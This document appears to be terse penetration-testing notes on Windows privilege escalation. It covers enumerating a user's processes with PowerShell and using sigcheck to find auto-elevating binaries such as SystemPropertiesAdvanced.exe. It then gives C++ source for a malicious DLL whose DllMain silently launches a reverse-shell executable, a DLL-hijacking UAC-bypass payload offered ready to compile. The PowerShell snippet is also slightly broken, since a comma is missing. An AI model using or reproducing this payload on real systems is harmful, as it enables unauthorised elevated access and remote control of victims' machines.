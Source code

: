 
#### Processes for current user

__Powershell__

```
get-process
```

```
$View = @(
 @{l='Handles';e={$_.HandleCount}},
 @{l='NPM(K)';e={ (Get-Process -Id $_.ProcessId).NonpagedSystemMemorySize/1KB -as [int]}},
 @{l='PM(K)';e={ $_.PrivatePageCount/1KB -as [int]}},
 @{l='WS(K)';e={ $_.WorkingSetSize/1KB -as [int]}},
 @{l='VM(M)';e={ $_.VirtualSize/1mB -as [int]}},
 @{l='CPU(s)';e={ (Get-Process -Id $_.ProcessId).CPU -as [int]}},
 @{l='Id';e={ $_.ProcessId}},
 'UserName'
 @{l='ProcessName';e={ $_.ProcessName}}
)
Get-WmiObject Win32_Process | % { $_ | 
    Add-Member -MemberType ScriptProperty -Name UserName -Value {
        '{0}\{1}' -f $this.GetOwner().Domain,$this.GetOwner().User
    } -Force -PassThru
} | ? UserName -match pieter | ft $View -AutoSize
```

#### Usefull Windows binarys

```
sigcheck64.exe
```

Example
```
sigcheck64.exe -m C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe -accepteula
```
```xml
</trustInfo>
<asmv3:application>
   <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <autoElevate>true</autoElevate>
   </asmv3:windowsSettings>
</asmv3:application>
</assembly>
```


#### Create custom DLL file

Preconfigure enviroment
```bash
apt install mingw-w64
```
Save file as main.cpp
```c++
#include <windows.h>
int executeCommand()
{
 WinExec("C:\\Users\\Pieter\\Documents\\revshell.exe", 0);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 executeCommand();
 return 0;
}
```
